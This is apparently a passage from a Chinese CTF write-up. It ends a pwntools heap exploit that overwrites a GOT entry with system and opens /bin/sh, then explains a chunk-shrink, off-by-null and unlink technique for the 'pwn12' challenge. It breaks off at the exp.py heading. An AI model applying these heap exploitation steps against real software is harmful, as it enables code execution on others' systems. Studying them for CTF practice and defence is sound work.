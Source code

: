 ```py
    Add(0x8,'/bin/sh\x00')#2
    Edit(0,0x10,'b'*0x10)
    Delete(0)

    Edit1(1,'\x60')

    Add(0x8,p64(elf.got['a64l']))#0
    Show(1)
    p.recvuntil('\x20\n')
    atol_addr = u16(p.recv(2))
    system_addr = atol_addr - libc.symbols['a64l'] + libc.symbols['system']
    log.success('system addr => ' + hex(system_addr))
    Edit(1,2,p32(system_addr)[:2])
    #gdb.attach(p)
    p.recvuntil("choice :")
    p.sendline("/bin/sh\x00")
    p.interactive()

exp()
```

## pwn12

### 前言

pwn12是一道很典型的chunk shrink题目，似乎是第一次做到类似的题目，非常有必要整理做题的套路。

### 前言

这道题上来就mallopt禁止了fastbin，让我想起来RCTF那道难到吐血的large bin attack的题目，到最后也没什么好思路，最后照着17师傅的exp做了一遍，是非常典型的chunk shrink题目emm。

### 程序逻辑

程序有Add、Edit、Show、Delete，只能分配0x78及以下的chunk。Edit有off-by-null，由于不能分配0xf0的chunk，不能构造chunk extend。这里使用shrink来构造Overlap chunk。又因为没开PIE，最后可以unlink。

chunk shrink构造：
chunk0(0x80)#0 
chunk1(0x80)#1  
chunk2(0x80)#2  
chunk3(0x80)#3  
chunk4(0x80)#4  
chunk4(0x80)#5  
Free掉1-3，Edit(0)通过off-by-one修改chunk1的size为0x100，注意我们Free这三个堆块之后，chunk4的prev_size是0x180。

Malloc(0x78)*2，我们会分配到chunk1和chunk2。Free(1)和Free(4)，Free(1)的时候1和2不会合并，而Free(4)的时候由于chunk4的prev_size为0x180，因此其寻找上一个chunk会找到chunk1，因为我们释放了chunk1，所以chunk2的prev_in_use为0，chunk1-chunk4合并，重新分配，造成chunk2的ovelapping。

### exp.py
